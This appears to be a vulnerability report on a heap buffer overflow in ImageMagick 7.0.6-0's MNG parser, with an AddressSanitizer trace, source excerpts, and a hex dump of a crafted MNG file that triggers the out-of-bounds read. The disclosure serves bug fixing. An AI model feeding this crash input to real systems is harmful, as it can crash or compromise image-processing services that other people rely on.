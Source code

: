 ImageMagick-7.0.6-0
<br>
```
  ~$identify $FILE or convert $FILE
```
<br>build instructions:
```
  ~$ sudo apt-get install imagemagick libmagick++-dev
  ~$ CC="gcc" CFLAGS="-fsanitize=address" ./configure 
  ~$ make;make install
```
when identify or convert MNG file, imagemagick will cause a heap buffer overflow
> =================================================================
==10476==ERROR: AddressSanitizer: heap-buffer-overflow on address 0x602000008b7b at pc 0x7ffff6844757 bp 0x7fffffff1250 sp 0x7fffffff1240READ of size 1 at 0x602000008b7b thread T0    #0 0x7ffff6844756 in mng_read_box coders/png.c:1599    #1 0x7ffff68559eb in ReadOneMNGImage coders/png.c:5761    #2 0x7ffff685fe29 in ReadMNGImage coders/png.c:7497    #3 0x7ffff63d7c4f in ReadImage MagickCore/constitute.c:497    #4 0x7ffff6623e06 in ReadStream MagickCore/stream.c:1045    #5 0x7ffff63d717c in PingImage MagickCore/constitute.c:226    #6 0x7ffff63d75a9 in PingImages MagickCore/constitute.c:327    #7 0x7ffff5d97a2a in IdentifyImageCommand MagickWand/identify.c:319    #8 0x7ffff5deec7a in MagickCommandGenesis MagickWand/mogrify.c:183    #9 0x40169a in MagickMain utilities/magick.c:149    #10 0x4017be in main utilities/magick.c:180    #11 0x7ffff566782f in __libc_start_main (/lib/x86_64-linux-gnu/libc.so.6+0x2082f)
    #12 0x4012c8 in _start (/home/sf/ImageMagick-7.0.6-0/build-gcc/bin/magick+0x4012c8)>0x602000008b7b is located 0 bytes to the right of 11-byte region [0x602000008b70,0x602000008b7b)allocated by thread T0 here:    #0 0x7ffff6f02602 in malloc (/usr/lib/x86_64-linux-gnu/libasan.so.2+0x98602)    #1 0x7ffff64f6a00 in AcquireMagickMemory MagickCore/memory.c:463

The vulnerability is caused when identify MNG image, which happens  in function coders/png.c: mng_read_box(..).  The crash happens at line 1599 of coders/png.c, function mng_read_box is called by line 5761:
Here is the critical code of mng_get_long and its call code:
```
1590	static MngBox mng_read_box(MngBox previous_box,char delta_type,1591	  unsigned char *p)1592	{1593	   MngBox1594	      box;1595	1596	  /*(gdb) l1597	    Read clipping boundaries from DEFI, CLIP, FRAM, or PAST chunk.1598	  */1599	  box.left=(ssize_t) ((p[0]  << 24) | (p[1]  << 16) | (p[2]  << 8) | p[3]);1600	  box.right=(ssize_t) ((p[4]  << 24) | (p[5]  << 16) | (p[6]  << 8) | p[7]);1601	  box.top=(ssize_t) ((p[8]  << 24) | (p[9]  << 16) | (p[10] << 8) | p[11]);1602	  box.bottom=(ssize_t) ((p[12] << 24) | (p[13] << 16) | (p[14] << 8) | p[15]);1603	  if (delta_type != 0)1604	    {1605	      box.left+=previous_box.left;1606	      box.right+=previous_box.right;
```

```
5758	5759	                if (change_clipping)5760	                  {5761	                    fb=mng_read_box(previous_fb,(char) p[0],&p[1]);5762	                    p+=17;5763	                    previous_fb=fb;5764	5765	                    if (logging != MagickFalse)```
It is caused by heap buffer overflow, which is caused by a read operation without overflow check. Buffer p pointer to chunk, when read the FRAM chunk the length is 11 (read from input file)

```
~$xxd $FILE
00000000: 8a4d 4e47 0d0a 1a0a 0000 001c 4d48 4452  .MNG........MHDR
00000010: 0000 0010 0000 0010 0000 0064 0000 0000  ...........d....
00000020: 0000 0000 0000 0000 0000 000b 2cf4 5caf  ............,.\.
00000030: 0000 000a 5445 524d 0300 0000 000a 7fff  ....TERM........
00000040: ffff 1047 baf8 0000 0009 7048 5973 0000  ...G......pHYs..
00000050: 0048 0000 0048 0046 c96b 3e00 0000 0642  .H...H.F.k>....B
00000060: 4143 4bff ffff ffff ffa1 2900 8100 0000  ACK.......).....
00000070: 0662 4b47 44ff ffff ffff ff09 58f7 dc00  .bKGD.......X...
00000080: 0000 0b46 5241 4d01 0002 0080            ...FRAM.....
```

####Testcase: 
